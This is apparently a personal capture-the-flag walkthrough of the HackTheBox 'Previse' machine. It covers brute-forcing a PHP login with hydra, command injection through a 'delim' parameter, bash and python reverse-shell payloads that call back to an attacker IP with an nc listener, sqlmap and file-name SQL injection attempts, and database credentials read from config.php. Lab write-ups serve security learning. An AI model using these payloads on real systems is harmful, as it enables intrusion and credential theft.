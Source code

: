 ## Info

Can execute these in bash to set variables, which will be used later on in this script.

    ATTACKER=10.10.14.57
    VICTIM=10.10.11.104

## Recon

    bash ../../scripts/discovery/first-scan.sh $VICTIM > recon.txt

Looks like port 22 and 80 are open.

### Port 80

There's a login page, you can `POST http://10.10.11.104/login.php username=asdf&password=ASDF`.

Probably try cred stuffing?

#### Subdir scan

    bash ../../scripts/discovery/subdirectory-scan.sh $VICTIM

#### Cred stuffing

    hydra -l admin -P ~/Git/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64
    
Apparently it worked. `admin:asdfasdf`. Wow!

## Next steps

We have access to the admin interface. Looks like there's a few other users, a way to upload files, and a way to view who downloaded files.

### Downloaded PHP

Some more goodies exist in the code, like hardcoded secrets, but I don't care enough to review them. Command injection may be enough.

-   .`/downloaded-files/siteBackup/logs.php` line 19, command injection
    -   ```php
        $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
        ```

This is all we need to get a shell.

## Reverse shell via command injection

Run this bash command to generate a payload.

This payload is to be sent via HTTP POST into the 'delim' parameter, at this page: `/file_logs.php`

    echo "comma; bash -i >& /dev/tcp/$ATTACKER/6969 0>&1"

e.g:

    comma; bash -i >& /dev/tcp/10.10.14.57/6969 0>&1

Then, run this in JavaScript to modify the form (change IP if needed):

    $('option').value = "comma && bash -i >& /dev/tcp/10.10.14.57/6969 0>&1"
    $('option').innerHTML = "payload ;)"

Then, run this on the attacker machine to listen for connections:

    nc -lvp 6969

And submit the form.

And the reverse shell doesn't work. Fuck.

Does the command injection work at all?

Try:

    $('option').value = "comma && sleep 20"
    $('option').innerHTML = "payload ;)"

Sleep works... So the command injection works. Perhaps we just can't make a connection back to the attacker.

## SQLMap

Log in as admin, and get your PHPSESSID cookie.

    console.log(document.cookie)
    PHPSESSID=qv2nlssejob21t9uq9jq67413c

Then run:

    PHPSESSID=whatever
    sqlmap http://$VICTIM/files.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Yay, nothing happened ;_;

Let's try `accounts.php`...

    sqlmap http://$VICTIM/accounts.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Nothing either.

## $fileName not parameterized

If I upload to `/files.php`, and the name of the file is an SQL injection payload, I may be able to cause SQLi.

Well, uploading `' or 1=1;--` causes an error.

This is the raw request sent to the server (looks weird due to it being a file upload):

    -----------------------------42444973397781975353726677533
    Content-Disposition: form-data; name="userData"; filename="' or 1=1;--"
    Content-Type: application/octet-stream

    please upload me 😔
    -----------------------------42444973397781975353726677533--


Let's try to make a better payload.

We control `$fileName` in this code:

```php
$sql = "INSERT INTO files(name, size, data, user) VALUES('{$fileName}', '{$fileSize}', '{$fileData}', '{$_SESSION['user']}')";
```

So we could spoof records with a payload thusly:

    filename69', '69', 'good content', 'admin');--

Doesn't work.

## SQLMap again

https://www.liquidmatrix.org/blog/sql-injection-using-sqlmap-multipartform-data-encoding/

Apparently we're supposed to use a file containing POST data as a template.

    sqlmap --cookie="PHPSESSID=$PHPSESSID" -r payloads/sqlmap-request.txt --method=POST -p "userData"

Still not working.

Fuck it, time to cheat, hooray!

## cheaty cheaty

<https://medium.com/acm-juit/previse-htb-writeup-a3d0acecb937>

Apparently I'm supposed to use a different method of getting reverse shell.

### reverse shell part 2

Attacker runs:

    nc -lvp 6969

Victim (on <http://10.10.11.104/file_logs.php>):

    $('option').value = `delim=comma;export RHOST="10.10.14.57";export RPORT=6969;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`
    $('option').innerHTML = "payload ;)"

It works, I got shell! I should keep a list of different reverse shell payloads since the bash one doesn't always work.

## in da shell

Looks like there's a user called m4lwhere.

Also, we can now connect to the MySQL database. Look at `config.php` for creds.

    mysql -u root -p'mySQL_p@ssw0rd!:)'
    show tables;